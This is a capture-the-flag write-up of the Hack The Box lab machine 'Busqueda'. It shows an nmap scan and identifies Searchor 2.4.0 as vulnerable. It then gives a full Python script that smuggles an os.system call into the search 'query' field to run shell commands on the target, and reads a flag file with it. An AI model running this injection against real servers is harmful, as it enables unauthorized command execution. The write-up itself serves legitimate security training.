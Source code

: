 ```yaml
---
cover: ../../../.gitbook/assets/Busqueda.png
coverY: 250.98666666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Busqueda

```bash
nmap -p- -T4 searcher.htb
```

There are 2 ports : `80` and `22`.

* 22 (OpenSSH 8.9p1 Ubuntu 3ubuntu0.1)
* 80 (Apache httpd 2.4.52)

<figure><img src="../../../.gitbook/assets/busqueda-version.png" alt=""><figcaption></figcaption></figure>

The Searchor Version is `2.4.0`. There is a vulnerability on this version : [github.com](https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b#diff-40a1b591e95ee135f3f26e8ffa117a4816c202b6ce76852be85018fed09c4436)&#x20;

<figure><img src="../../../.gitbook/assets/busqueda-1.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/busqueda-2.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/busqueda-3.png" alt=""><figcaption></figcaption></figure>

I can craft a script to get a web shell.

```python
import requests, sys

url = "http://searcher.htb/search"
engine = "Accuweather"
query = sys.argv[1]

headers = {
	'Host': 'searcher.htb',
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',
	'Accept-Encoding': 'gzip, deflate',
	'Content-Type': 'application/x-www-form-urlencoded',
	'Content-Length': '30',
	'Origin': 'http://searcher.htb',
	'Connection': 'close',
	'Referer': 'http://searcher.htb/',
	'Upgrade-Insecure-Requests': '1',
}

data = {
    'engine': engine,
    'query': f"') and print(__import__('os').system('{query}'))#"
}

response = requests.post(url=url, headers=headers, data=data)
print(response.text)
```

Then I can execute it.

```bash
python3 script.py "cat /home/svc/user.txt"
```
